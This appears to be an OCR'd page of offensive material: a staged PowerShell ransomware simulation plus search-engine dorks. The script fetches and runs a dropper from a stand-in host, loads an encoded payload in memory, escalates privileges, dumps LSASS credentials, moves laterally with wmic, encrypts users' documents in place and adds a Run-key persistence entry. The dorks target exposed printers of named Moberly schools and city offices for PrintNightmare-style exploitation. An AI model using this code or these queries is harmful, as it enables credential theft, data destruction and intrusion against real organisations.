 A staged PowerShell simulation using only built-in Windows tools (LOLBins):

```powershell
# Initial Access: Load dropper
IEX(New-Object Net.WebClient).DownloadString("http://malicious.com/dropper.ps1")

# Execution: Decode and load in-memory payload
$bytes = [System.Convert]::FromBase64String("[Base64Payload]") 
[System.Reflection.Assembly]::Load($bytes)

# Privilege Escalation
Start-Process powershell -Args "-ExecutionPolicy Bypass -File C:\Temp\elevate.ps1" -Verb RunAs

# Credential Access
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Temp\lsass.dmp full

# Lateral Movement
wmic /node:targetPC process call create "powershell.exe -File \\share\payload.ps1"

# File Encryption Example
$files = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.docx,*.pdf -Recurse
foreach ($file in $files) {
  $data = Get-Content $file.FullName -Raw
  $aes = New-Object System.Security.Cryptography.AesManaged
  $aes.Key = [Text.Encoding]::UTF8.GetBytes("RANDOM-GEN-KEY-1234567890123456")
  $aes.IV = New-Object byte[] 16
  $enc = $aes.CreateEncryptor().TransformFinalBlock([Text.Encoding]::UTF8.GetBytes($data), 0, $data.Length)
  Set-Content -Path $file.FullName -Value ([Convert]::ToBase64String($enc))
}

# Persistence
Set-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ransomware" -Value "powershell -File C:\Temp\persist.ps1"
```

---

## Reconnaissance and LOLBins

### Google Dork Examples
SHODAN or [FOFA](https://en.fofa.info/). 
**Objective:** Identify publicly exposed printer services that may be vulnerable to PrintNightmare or similar exploits.

Example queries:
```
inurl:"/hp/device/this.LCDispatcher" "Moberly"
intitle:"Printer Status" "Moberly Public Schools"
intitle:"Web Image Monitor" inurl:"/wim" "Moberly"
inurl:"/printer/main.html" "City of Moberly"
intitle:"Web Jetadmin" "Moberly"
inurl:"/printers/" "Moberly"
intitle:"Konica Minolta" inurl:"/wcd/" "Moberly"
intitle:"PaperCut MF" "Moberly"
```
